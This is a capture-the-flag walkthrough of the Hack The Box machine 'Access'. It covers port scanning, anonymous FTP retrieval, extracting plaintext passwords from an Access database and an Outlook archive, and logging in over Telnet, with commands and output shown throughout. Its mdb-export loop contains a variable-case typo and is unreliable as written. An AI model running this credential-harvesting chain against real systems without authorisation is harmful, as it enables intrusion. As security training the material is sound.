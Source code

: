 # Exercise: Enumerating and exploiting FTP and Telnet on Hack The Box case machine Access

Access is a Windows box that has an FTP server on which you will find a backup of an MS Access database and a password-protected ZIP file containing a backup of a Microsoft Outlook email file. Dumping the Access database give server usernames and passwords, one of which can be used to unzip the ZIP file. Viewing the emails in the PST file found there, gives another password that can be used to gain access via Telnet.

An nmap scan shows that the TCP ports 21 \(FTP\), 23 \(Telnet\) and 80 \(HTTP\) are open. Nmap tells you that anonymous login is allowed on FTP.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- access.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_ SYST: Windows_NT
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

On logging in with user anonymous, password anonymous, you find 2 directories, "Backups" and "Engineer". The Backups directory contains an mdb file which indicates that it is a backup of an Access database file. The Engineer directory contains a zip file named "Access Control.zip".

To download everything to our machine, we can use wget from our local machine:

```bash
┌─[rin@parrot]─[~/boxes/Access/FTP]
└──╼ $wget -r --no-passive-ftp ftp://anonymous:anonymous@access.htb
--2021-02-28 14:58:13-- ftp://anonymous:*password*@access.htb/
 => ‘access.htb/.listing’
Resolving access.htb (access.htb)... 10.129.105.84
Connecting to access.htb (access.htb)|10.129.105.84|:21... connected.
Logging in as anonymous ... Logged in!
<SNIP>
```

The -r flag tells wget to do a recursive fetch which goes into every directory and fetches the contents. The --no-passive-ftp flag tells wget not to try and download files using passive mode. If you try and run the command without the --no-passive-ftp flag, wget will try and establish passive mode and fail, aborting the command.

Once the command completes, you will have the following on your local disk:

```bash
┌─[rin@parrot]─[~/boxes/Access/FTP]
└──╼ $tree access.htb
access.htb
├── Backups
│   └── backup.mdb
└── Engineer
 └── Access Control.zip
2 directories, 2 files
```

If you try and unzip Access Control.zip, it will give an error saying that it can't unzip because the zip file uses "unsupported compression method 99" which means that it was zipped using 7-Zip. If you try 7z on it, you will be prompted for a password. So leaving that for the moment, you can explore the access database backup using mdbtools.

{% hint style="info" %}
mdbtools can be installed with:

`sudo apt install mdbtools`
{% endhint %}

Create a directory called tables and move backup.mdb into it then run:

```bash
for I in $(mdb-tables backup.mdb);do mdb-export backup.mdb $i > $i;done
```

This script will get each table name and then export the contents of the table, saving it to a file named using the table name. Most of the tables are empty and you can sort the files by line count using:

```bash
wc -l * | sort -n
```

On looking at the files with more than 2 lines, you will notice a table called auth\_user:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access/tables]
└──╼ $cat auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

The first thing to try is the engineer password on the zip file:

```bash
┌─[rin@parrot]─[~/boxes/Access/access.htb/Engineer]
└──╼ $7z x 'Access Control.zip'
7-Zip [64] 16.02 : Copyright I 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_AU.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs IntelI CoreI i9-9980HK CPU @ 2.40GHz (906ED),ASM,AES-NI)
Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)
Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870
Enter password (will not be echoed):
Everything is Ok
Size: 271360
Compressed: 10870
```

The pst file is a Microsoft Outlook email file that can be read using the program "readpst". Running this on "Access Control.pst" will extract an mbox file. With cat, the contents reveal an email that is in the "Deleted Items" folder. This email is from john@megacorp.com to security@accesscontrolsystems.com saying that:

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.

You can then use the username security and password 4Cc3ssC0ntr0ller to telnet onto the box:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access]
└──╼ $telnet access.htb
Trying 10.129.45.60...
Connected to access.htb.
Escape character is '^]'.
Welcome to Microsoft Telnet Service
login: security
password:
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
C:\Users\security>
```

It won't be long before you notice that the shell that Telnet provides is limited. The arrow keys don't work and nor does the delete key. Output is not formatted correctly. This is a very good example of where the shell is not a full TTY. You can improve things by running a Nishang PowerShell reverse shell, but I will leave this here for the moment and come back later when I discuss privilege escalation and persistence.

